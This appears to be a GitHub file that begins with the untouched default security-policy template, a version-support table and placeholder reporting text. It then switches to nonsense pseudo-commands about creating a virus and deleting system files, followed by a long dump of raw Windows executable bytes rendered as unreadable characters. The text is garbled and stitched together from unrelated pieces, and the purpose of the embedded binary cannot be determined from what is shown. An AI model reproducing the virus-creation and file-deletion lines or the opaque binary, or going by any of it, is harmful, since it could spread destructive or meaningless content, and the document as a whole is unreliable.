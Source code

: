 # Security Policy

## Supported Versions

Use this section to tell people about which versions of your project are
currently being supported with security updates.

| Version | Supported          |
| ------- | ------------------ |
| 5.1.x   | :white_check_mark: |
| 5.0.x   | :x:                |
| 4.0.x   | :white_check_mark: |
| < 4.0   | :x:                |

## Reporting a Vulnerability

Use this section to tell people how to report a vulnerability.

Tell them where to go, how often they can expect to get an update on a
reported vulnerability, what to expect if the vulnerability is accepted or
declined, etc.

$$sys delete choc
$$create virus/hushg
hhuss create file xz termux
create.js
delete form sys
sys foundation 
$ddes sysed.js
                                ð  ˜                          .text   ~×      Ø                    `.rdata  U   ð      Ü              @  @.data   (P       ú              @  À.CRT        p     ü              @  @.rsrc   A   €  B   þ              @  @                                                                                                                                                                                                                                                                                                                                                                €ù@s€ù s­ÐÓúÃ‹ÂÁú€áÓøÃÁú‹ÂÃÌÌÌÌÌÌÌÌÌÌÌÌÌÌÌ‹D$‹L$È‹L$u	‹D$÷áÂ S÷á‹Ø‹D$÷d$Ø‹D$÷áÓ[Â ÌÌÌÌÌÌÌÌÌÌÌÌWVS3ÿ‹D$À}G‹T$÷Ø÷ÚƒØ ‰D$‰T$‹D$À}G‹T$÷Ø÷ÚƒØ ‰D$‰T$Àu‹L$‹D$3Ò÷ñ‹Ø‹D$÷ñ‹ÓëA‹Ø‹L$‹T$‹D$ÑëÑÙÑêÑØÛuô÷ñ‹ð÷d$‹È‹D$÷æÑr;T$wr;D$vN3Ò‹ÆOu÷Ú÷ØƒÚ [^_Â ÌÌÌÌÌÌWVU3ÿ3í‹D$À}GE‹T$÷Ø÷ÚƒØ ‰D$‰T$‹D$À}G‹T$÷Ø÷ÚƒØ ‰D$‰T$Àu(‹L$‹D$3Ò÷ñ‹Ø‹D$÷ñ‹ð‹Ã÷d$‹È‹Æ÷d$ÑëG‹Ø‹L$‹T$‹D$ÑëÑÙÑêÑØÛuô÷ñ‹ð÷d$‹È‹D$÷æÑr;T$wr;D$v	N+D$T$3Û+D$T$My÷Ú÷ØƒÚ ‹Ê‹Ó‹Ù‹È‹ÆOu÷Ú÷ØƒÚ ]^_Â ÌSW3ÿ‹D$À}G‹T$÷Ø÷ÚƒØ ‰D$‰T$‹D$À}‹T$÷Ø÷ÚƒØ ‰D$‰T$Àu‹L$‹D$3Ò÷ñ‹D$÷ñ‹Â3ÒOyNëS‹Ø‹L$‹T$‹D$ÑëÑÙÑêÑØÛuô÷ñ‹È÷d$‘÷d$Ñr;T$wr;D$v+D$T$+D$T$Oy÷Ú÷ØƒÚ _[Â ÌÌÌÌÌÌÌÌÌÌÌÌÌÌQL$+ÈÀ÷Ð#È‹Ä% ðÿÿ;Èr
‹ÁY”‹ ‰$Ã-   … ëéU‹ìì,  EüPÿˆñ@ …Àt2Àë]‹Eƒeà ƒeð ƒeô ‰EÜ…Ôýÿÿ‰Eä‹E‰EèVEÜPÇEìA   ÿŒñ@ ‹ð…öu2ÀëWÿuVÿñ@ ‹ø‹Eü‹VPÿQ3À…ÿ•À_^ÉÂ U‹ìì  SVW3ÛSÿuèqZ  ‹M‰Eè2´  ¿   é¬   …üûÿÿPè4Z  ‹ð¾PèËV  8]t!:Ãtˆë.S…üûÿÿPè|Y  PènV  „Àuqë:Ãth¼ò@ …üûÿÿPè&}  €½üûÿÿ*‹uu3¾…ýûÿÿPèwV  „Àt"WV…ú÷ÿÿPÆ…ø÷ÿÿ.Æ…ù÷ÿÿ\è²  µø÷ÿÿÿu…üûÿÿVSPèºY  PèS  „Àu‹MW…üûÿÿPè«µ  „À…<ÿÿÿ_^[ÉÂ °ëõ‹‰O  é#´  ‹…ÀtPèx  ÃV‹ñNèèÿÿÿ‹Î^éàÿÿÿU‹ìVjÿu‹ñÿuÿuÿ¶O  è¾þÿÿ„Àt°ë-3É8Mt$‹†O  9H tjQÿu‹ÎÿuPè“þÿÿöØÀþÀë2À^]Â U‹ìƒìSV‹uWF0P‹ù‰Eèøy  »   ;Ãsk†0  Pè|  ;Ãs[ŠF$à<à”À3ÛCSj ˆEøÿuø‹ÏÿuèWÿÿÿ„Àu7‹O  èv²  ëÿuÿuÿuüèsR  „Àu!C‹O  EôPEüPè³  „ÀuÖ3À_^[ÉÂ ‹u…ötÿuÿuüèŸ°  ÷ØÀþÀˆ‹ÃëÛSUV‹ñW‹¾O  3í;ýt‹ÏèÉþÿÿWèÜ}  Y‹¾O  ;ýt‹Ïè±þÿÿWèÄ}  Y‹¾O  ;ýt‹Ïè™þÿÿWè¬}  Y‹¾O  ;ýt‹ÏèþÿÿWè”}  Y¾O  ‹;Ýt‹ËègþÿÿSèz}  Y‰/_‰®O  ‰®O  ‰®O  ‰®O  Ž`-  ^][é±  V‹ñèMÿÿÿ‹Î^éfS  SVW‹ñèðR  ‹Îè4ÿÿÿ3Û3À¿¨   WˆžÑ6  f‰†â:  ˆžC  f‰†G  ˆžÈ6  ˆžÉ6  ‰žÌ6  è}  Y;Ãt	‹Èè¼²  ë3ÀW‰†O  èå|  Y;Ãt	‹Èè ²  ë3ÀW‰†O  èÉ|  Y;Ãt	‹Èè„²  ë3ÀW‰†O  è­|  Y;Ãt	‹Èèh²  ë3ÀW‰†O  è‘|  Y;Ãt	‹ÈèL²  ë3À_‰†O  ^[ÃV‹ñè¯R  3À‹Î‰†O  ‰†O  ‰†O  ‰†O  ‰†O  èûþÿÿ‹Æ^Ãé¢“  3Éj‹ÁZ¨t	Ñè5 ƒ¸íëÑèJuî‰ÐA ‰Ð0A Aù   rÒSVW¹ÐA ¿  ‹ üÿÿj‹Ñ^¶ØÁè3ÐA ‰Â   NuèƒÁOu×_^[Ãƒ=Ô0A  uèˆÿÿÿ‹L$‹D$V‹t$W…övöÁt¶¶ø3×Áè3•ÐA NAëáƒþ‚Š   ‹þÁïS3ƒî‹ØÁë¶Û‹ÐÁê‹•Ð A 3Ð$A ‹ØÁë¶Û3Ð(A ¶Y3ÐA ¶Y3ÐA ¶Y3ÐA ¶Y3ÐA ¶À3…Ð,A ƒÁO‹Âu“[ë¶¶ø3×Áè3•ÐA NA…öwè_^Â ¶D$Pÿt$ÿt$ÿDò@ PÿHò@ Â ¶D$÷ØÀƒà	Pÿt$ÿt$ÿDò@ Pÿ@ò@ Â U‹ìƒ}0t$}  u(ŠE $¶ÀPÿu¹ÔîB ÿuèþp  ë
ÿu¹ÔîB è n  2À]Â 3À‰‰AÆAˆA	ˆA